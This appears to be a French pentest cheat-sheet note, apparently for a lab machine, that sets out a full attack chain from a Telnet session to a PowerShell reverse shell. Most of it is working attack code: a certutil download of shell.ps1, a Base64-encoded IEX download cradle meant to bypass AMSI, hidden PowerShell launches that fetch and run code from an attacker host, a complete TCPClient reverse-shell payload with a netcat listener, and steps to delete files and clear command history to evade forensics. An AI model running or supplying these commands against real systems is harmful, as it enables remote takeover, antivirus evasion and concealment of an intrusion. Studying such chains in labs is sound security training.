

Ce flux illustre la chaîne d'attaque permettant d'obtenir une exécution de code à distance via une session **Telnet** active.



## Telnet : Établissement de session

```bash
telnet 10.10.10.98
```

> [!warning] Risque d'interception
> Le protocole **Telnet** transmet les données en clair sur le réseau. Toute interaction est susceptible d'être interceptée par un tiers.

## Vérification des permissions

Avant toute exécution, il est crucial de déterminer le contexte de sécurité de la session **Telnet**.

```cmd
whoami /priv
whoami /groups
```

Vérifier si l'utilisateur possède des privilèges élevés (ex: `SeImpersonatePrivilege`) ou s'il appartient à des groupes sensibles, ce qui conditionnera les techniques de post-exploitation (voir note **Windows**).

## Transfert de fichiers

Pour transférer le script **PowerShell** vers la cible, un serveur HTTP local est utilisé pour servir le fichier.

```bash
sudo python3 -m http.server 80
```

Sur la machine victime via la session **Telnet**, utiliser **certutil** pour récupérer le fichier :

```cmd
certutil -urlcache -f http://10.10.14.11/shell.ps1 shell.ps1
```

## Analyse de la sécurité (AV/EDR bypass)

L'exécution de scripts **PowerShell** est souvent surveillée par l'**AMSI** (Antimalware Scan Interface). Pour contourner les signatures statiques, privilégiez l'obfuscation ou l'encodage Base64 :

```powershell
# Exemple d'encodage pour contourner certaines analyses de chaîne
$command = "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.11/shell.ps1')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell -EncodedCommand $encodedCommand
```

> [!danger] Détection EDR
> L'utilisation de **IEX** (Invoke-Expression) est hautement détectable par les solutions **EDR** et antivirus modernes. Privilégiez des méthodes de chargement en mémoire via des appels d'API Win32 si nécessaire.

## Exécution du Reverse Shell

L'utilisation de **START /B** est nécessaire pour exécuter le processus en arrière-plan sans bloquer le terminal **Telnet** actif.

```cmd
START /B "" powershell -nop -w hidden -ExecutionPolicy Bypass -File shell.ps1
```

Alternative via exécution directe en mémoire :

```cmd
START /B "" powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.11/shell.ps1')"
```

> [!tip] Gestion du processus
> **START /B** permet de lancer la commande sans ouvrir de nouvelle fenêtre, évitant ainsi le gel de la session **Telnet** interactive.

## Stabilité de la session

Pour éviter la perte de la session suite à une déconnexion **Telnet** ou un timeout, il est recommandé de migrer vers un processus plus stable ou d'installer une persistance (voir notes **Webshells** et **Exegol** pour le pivoting) :

```cmd
# Vérifier si le processus est toujours actif
tasklist | findstr powershell
```

## Configuration du Listener

Sur la machine de l'attaquant, préparer l'écouteur avec **nc** (**netcat**) :

```bash
nc -lvnp 4444
```

## Contenu du payload PowerShell

Le fichier `shell.ps1` doit contenir les instructions suivantes pour établir la connexion inverse :

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.11",4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};
$client.Close()
```

## Nettoyage des traces

Une fois l'accès consolidé, il est impératif de supprimer les fichiers temporaires pour éviter la détection par les outils de forensic :

```cmd
del shell.ps1
# Effacer l'historique des commandes si possible
powershell -c "Clear-History"
```

> [!note] Prérequis réseau
> Assurez-vous que le pare-feu de la machine attaquante autorise les connexions entrantes sur le port configuré pour le **Reverse Shell**.